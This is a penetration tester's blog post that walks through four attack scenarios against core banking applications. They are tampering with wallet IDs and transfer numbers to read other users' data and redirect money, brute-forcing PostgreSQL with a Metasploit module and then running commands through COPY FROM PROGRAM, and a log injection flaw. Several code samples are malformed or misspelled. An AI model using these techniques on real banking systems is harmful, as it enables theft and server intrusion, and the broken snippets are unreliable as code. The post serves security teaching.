 ```yaml
---
date: 2023-02-06 23:48:05
layout: post
title: Hacking Core Banking, Is It Too Easy?!
subtitle: Hacking Core Banking, Is It Too Easy?!
description: >-
  In this Blog, I've explained some scenarios which I've faced while hacking some core banking applications.
image: https://i.imgur.com/1NUdPpx.png
optimized_image: https://i.imgur.com/1NUdPpx.png
category: Application Security
tags:
  - web security
  - sql injection
  - bug hunting
  - Broken Access Control
  - API Hacking
  - hackerone
author: Ahmed Fatouh
paginate: true
---
```


### Introduction

> **as Penetration Testers, all of us do a Pentest for core banking applications but there are some people who fear doing pentest for those applications so I'll Put some scenarios I've faced while doing pentest on core banking applications, let me describe what is Core banking.**

> **Core banking is a banking service provided by a group of networked bank branches where customers may access their bank account and perform basic transactions from any of the member branch offices.**

> **let me give you an example, you have an account in Bank A, and you want to send money to your friend which has an account in Bank B, so you will use an online banking application to send money from Bank A to Bank B.**

> **now i'll give some scenarios:**

### Scenarios

#### Scenario 1:-

lets assume you have an online bankin application which have some functions like see balance, send, receive and so on, and you go to check your balance, the request will be like this:
```ruby
{
 "Ammount":3232,
 "CurrenceyCode": 23123,
 "WalletID":, 132
 "LoginID":, 75656
 "SessionID": 5jlskgdhfsdg
 "UserName":fatouh
}
```
now we have some details, and a valid sessionID, as an attacker you can change the WalletID to any wallet of any user and see all info of this wallet, set the value of the username as NULL as there is no validation for it, or you use the same SessionID and change the client details to another and you will able to see all details of the client, also this for other functions like send, receive money, using the same sessionID I could able to dump all users Wallet info, send, receive money.
This is a simple scenario for online banking hacking, another scenario.

#### Scenario 2:-

you using the mobile application to transfer money from mobile number to another mobile number, the request will be like this:
```ruby
{
 "WalletID":2,
 "ClientTransferToMobileNumber":018083234
 "LoginID":23432
 "SessionID":sdfsdfsd
}
```
now simply change the ClientTransferToMobile number to attacker mobile with the same sessionID and you will able to receive money.

#### Scenario 3:-

if the client gave you the server IP in which they hosted their application, assume that you did nmap scan and you find PostgreSQL running on port 5432,
- you can simply bruteforce the password using the following module in Metasploit: ```auxiliary/scanner/postgres/postgres_login```
- if you were lucky like me, you will get the password, now you can get Remote code execution on the server using the following: 
```ruby
CREAT TABLE cmd_exec(cmd_out text);
copy cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```
and now you have rce on the server, very simple ha!.

Scenario 4:- 
let's assume you have the following code sample: 
```ruby
using System.Web;
using System.Web.Mvc;
public class ExampleController : Controller
{
 private static readonly.Log __Logger and so on
 [HttpGet]
 public void Log(string data)
 {
 if (data !=null)
 {
 _logger.info('Log :' + data);
 }
 }
}
```
this code is vulnerable to logging injection as the input should be like this
```ruby
if (data !=null)
{
 data = data.Replace('\n', '_').Replace('\r', '_')
 _logger.Info("Log": + data);
}
```

Cheers!


